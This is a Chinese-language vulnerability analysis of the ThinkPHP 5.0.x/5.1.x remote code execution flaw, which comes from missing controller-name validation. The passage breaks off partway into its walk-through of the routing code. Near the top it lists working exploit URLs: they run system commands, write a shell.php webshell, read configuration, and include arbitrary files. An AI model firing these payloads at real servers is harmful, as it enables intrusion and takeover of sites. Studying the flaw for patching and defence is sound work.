 > ThinkPHP版本：5.0.7<=5.0.x<=5.0.22 、5.1.0<=5.1.x<=5.1.30
>
> 参考：
>
> https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C9.md
>
> https://paper.seebug.org/888/#poc
>
> https://xz.aliyun.com/t/3570

### 概述

本次漏洞存在于 **ThinkPHP** 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 **远程代码执行漏洞** 的产生。漏洞影响版本： **5.0.7<=ThinkPHP5<=5.0.22** 、**5.1.0<=ThinkPHP<=5.1.30**。不同版本 **payload** 需稍作调整：

**5.1.x** ：

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

**5.0.x** ：

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

### 5.1.x类名解析

2018年12月9日官方发布的补丁，在library/think/route/dispatch/Module.php获取控制器名处加了个一个正则waf

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150300.png)

洞其实不在这里

在路由调度的时候：

![image-20210224183737791](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150307.png)

跟进到thinkphp/library/think/route/dispatch/Module.php:

![image-20210224183857202](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150311.png)

跟进controller方法：(thinkphp/library/think/App.php)

![image-20210224193234503](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150328.png)

跟进parseModuleAndClass方法：(thinkphp/library/think/App.php)
